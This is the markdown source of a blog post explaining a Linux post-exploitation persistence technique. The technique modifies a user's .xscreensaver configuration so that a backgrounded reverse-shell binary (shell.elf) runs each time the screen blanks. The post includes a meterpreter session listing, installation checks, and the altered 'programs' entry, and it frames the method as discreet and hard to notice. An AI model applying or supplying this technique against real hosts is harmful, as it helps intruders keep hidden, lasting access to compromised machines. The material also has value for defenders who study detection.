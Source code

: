 ```yaml
---
layout: post
title: Persistent Code Execution via XScreenSaver
date: 2019-03-03
categories:
  - linux
  - security
tags:
  - xscreensaver
  - shell
  - persistence
  - offsec
image: /assets/images/2019-03-03-persistent-code-execution-via-xscreensaver/xscreensaver.png
---
```

After successfully gaining remote access to a host, acquiring some form of persistence is usually on the cards in case of network problems, system reboots etc. There are many ways to do this but one way I discovered recently, I thought was quite discreet in comparison to other methods (editing shell rc files, crontabs etc.).

The method I came across was to modify the configuration file of XScreenSaver, a very common screensaver package for Linux, to execute a shell. [mis]Using XScreenSaver offers a couple of benefits:

* Users will rarely edit this file, meaning there is less chance of the shell being noticed
* The screen is almost guaranteed to blank on a regular basis, resulting in the shell executing

To demonstrate this, I have setup a Ubuntu 18.10 host running XScreenSaver 5.42 and have a remote shell to it.

Identifying XScreenSaver Presence & Configuration
-------------------------------------------------
To determine if XScreenSaver is installed,
The configuration file for XScreenSaver can be found in a user's home directory and is named `.xscreensaver`:

```shell_session
meterpreter > ls -S xscreensaver
Listing: /home/rastating
========================

Mode              Size  Type  Last modified              Name
----              ----  ----  -------------              ----
100664/rw-rw-r--  8804  fil   2019-03-07 21:49:13 +0000  .xscreensaver
````

If the configuration file is missing, it does not mean that XScreenSaver is not available, but that the user has not configured their screensaver preferences. In which case, you can create a fresh configuration file and drop it in place.

As there are packages readily available to install it, it is possible to use the system's package manager to verify if it is installed. For example, in Debian / Ubuntu, you can use `dpkg` to verify:

```shell_session
$ dpkg -s xscreensaver | grep -i status
Status: install ok installed
```

If it has been built from source, the presence of the following binaries would also suggest it is installed:

* xscreensaver
* xscreensaver-command
* xscreensaver-demo
* xscreensaver-getimage
* xscreensaver-getimage-file
* xscreensaver-getimage-video
* xscreensaver-gl-helper
* xscreensaver-text

In this case, I had selected a screensaver to use and thus the configuration file existed. Examining the configuration file reveal three key pieces of information:

* The `timeout` value: how long the session must remain inactive before the screensaver is displayed
* The `mode`: whether or not a single screensaver is used, or whether random screensavers are chosen each time
* The `selected` screensaver

As can be seen in the below snippet of the configuration file, the `timeout` value is set to `0:01:00`, meaning the screensaver will run after one minute of inactivity:

```yaml
# XScreenSaver Preferences File
# Written by xscreensaver-demo 5.42 for rastating on Thu Mar  7 21:49:13 2019.
# https://www.jwz.org/xscreensaver/

timeout:        0:01:00
cycle:          0:10:00
lock:           False
lockTimeout:    0:00:00
passwdTimeout:  0:00:30
```

Moving a bit further down the file, we can see the `mode` setting is `one` which indicates that a single screensaver has been selected. We can also see the `selected` setting, which indicates the selected screensaver is the one found at index position `2` of the `programs` array. As the array starts at `0`, this means that in this instance, the `attraction` screensaver has been selected:

```yaml
mode:         one
selected:     2

textMode:     url
textLiteral:  XScreenSaver
textFile:
textProgram:  fortune
textURL:      http://feeds.feedburner.com/ubuntu-news

programs:                                                   \
              maze -root                                  \n\
- GL:         superquadrics -root                         \n\
              attraction -root                            \n\
              blitspin -root                              \n\
              greynetic -root                             \n\
```

Adding a Shell To The Configuration File
----------------------------------------
Looking at the `programs` array of the configuration file, you may have figured out that these strings aren't just the names of the screensavers that are available, but the base commands that will be executed. In XScreenSaver, each screensaver is a separate binary that when executed will display the fullscreen screensaver.

In the configuration previously shown, when the screen blanks, it would shell out the command:

`/usr/lib/xscreensaver/attraction -root`

With this in mind, we can inject a command at the end of the base command in order to launch our shell alongside the screensaver. As I had a shell located in `/home/rastating/.local/share/shell.elf`, I modified the `.xscreensaver` to launch this. The previous snippet of the configuration file now looks like this:

```yaml
mode:         one
selected:     2

textMode:     url
textLiteral:  XScreenSaver
textFile:
textProgram:  fortune
textURL:      http://feeds.feedburner.com/ubuntu-news

programs:                                                   \
              maze -root                                  \n\
- GL:         superquadrics -root                         \n\
              attraction -root |                            \
               (/home/rastating/.local/share/shell.elf&)  \n\
              blitspin -root                              \n\
              greynetic -root                             \n\
```

There are two things to note with this change. The first is that the `\n\` that was at the end of the `attraction` line has been replaced with a single backslash. This indicates that the string is continuing onto a second line. The `\n` is the delimiter, and thus only appears at the end of the full command.

The second thing to note is the use of `|` and `&`, the shell is called in this way to ensure that it is launched alongside the `attraction` binary and that it does not halt execution by forking it into the background.

Once this change is made, XScreenSaver will automatically pick up the change, as per [The Manual](https://www.jwz.org/xscreensaver/man1.html):

> If you change a setting in the .xscreensaver file while xscreensaver is already running, it will notice this, and reload the file. (The file will be reloaded the next time the screen saver needs to take some action, such as blanking or unblanking the screen, or picking a new graphics mode.)

With this change in place, the shell will now be executed alongside the screensaver binary as can be seen in the video below:

<div class="video-container">
  <video class="video-js video" controls preload="auto" poster="{{ site.baseurl }}/assets/images/2019-03-03-persistent-code-execution-via-xscreensaver/xscreensaver-shell.jpg" data-setup="{}">
    <source src="{{ site.baseurl }}/assets/videos/xscreensaver-shell.mp4" type="video/mp4">
    <p class="vjs-no-js">
      To view this video please enable JavaScript, and consider upgrading to a web browser that <a href="https://videojs.com/html5-video-support/">supports HTML5 video</a>
    </p>
  </video>
</div>
